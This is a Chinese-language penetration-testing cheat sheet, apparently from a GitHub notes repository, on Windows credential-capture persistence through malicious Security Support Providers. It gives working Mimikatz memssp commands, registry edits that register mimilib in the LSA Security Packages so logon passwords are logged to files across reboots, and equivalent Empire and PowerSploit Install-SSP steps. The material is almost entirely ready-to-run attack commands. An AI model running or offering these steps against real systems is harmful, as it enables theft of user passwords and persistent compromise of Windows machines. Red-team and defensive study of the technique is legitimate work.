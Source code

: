 	需高权限
#### Mimikatz
	重启失效
	>privilege::debug
	>misc::memssp
	锁屏
	>rundll32.exe user32.dll,LockWorkStation
![image](/assets/Pentest_Note/master/img/544.png)

	登录的账号密码保存在
	C:\Windows\System32\mimilsa.log
![image](/assets/Pentest_Note/master/img/545.png)

	重启有效
	将mimikatz中的mimilib.dll放入system32目录
	>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages" 查看注册表
	>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ  添加mimilib
![image](/assets/Pentest_Note/master/img/546.png)

	有账号登录密码保存在C:\Windows\System32\kiwissp.log重启也有效
![image](/assets/Pentest_Note/master/img/547.png)
#### Empire
	复制mimilib.dll到system32文件夹中
	>shell copy mimilib.dll C:\Windows\System32\
	使用模块
	>usemodule persistence/misc/install_ssp*
	>set Path C:\Users\Administrator\mimilib.dll
#### Powersploit
	>Import-Module .\PowerSploit.psm1
	>Install-SSP -Path .\mimilib.dll
